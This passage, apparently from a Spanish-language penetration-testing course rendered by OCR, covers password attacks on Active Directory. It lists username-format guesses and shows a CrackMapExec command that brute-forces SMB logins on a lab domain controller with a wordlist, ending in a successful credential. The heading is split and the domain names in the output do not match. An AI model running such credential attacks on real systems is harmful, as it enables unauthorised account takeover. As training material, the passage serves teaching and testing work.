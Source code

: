 ```r
jjill
j.jill
johnsonj
johnson
johnson.j
johnson.jill
jj
jane
janedoe
jane.doe
janed
j.doe
jdoe
djane
d.jane
doej
doe
doe.j
doe.jane
jd
```

Usar herramientas automatizadas puede ahorrarnos tiempo al crear listas. Aún así, nos beneficiaremos de pasar tanto tiempo como podamos intentando descubrir la convención de nombres que una organización está utilizando con los nombres de usuario porque esto reducirá la necesidad de adivinar la convención de nombres.

Es ideal limitar la necesidad de adivinar tanto como sea posible al realizar ataques de contraseñas.

### Launching the Attack with Crack

MapExec

Una vez que tengamos nuestras listas preparadas o descubramos la convención de nombres y algunos nombres de empleados, podemos lanzar nuestro ataque contra el controlador de dominio objetivo usando una herramienta como CrackMapExec. Podemos usarla junto con el protocolo SMB para enviar solicitudes de inicio de sesión al controlador de dominio objetivo. Aquí está el comando para hacerlo:

```r
crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt

SMB         10.129.201.57     445    DC01           [*] Windows 10.0 Build 17763 x64 (name:DC-PAC) (domain:dac.local) (signing:True) (SMBv1:False)
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2017 STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2016 STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2015 STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2014 STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2013 STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:P@55w0rd STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:P@ssw0rd! STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [+] inlanefrieght.local\bwilliamson:P@55w0rd! 
```
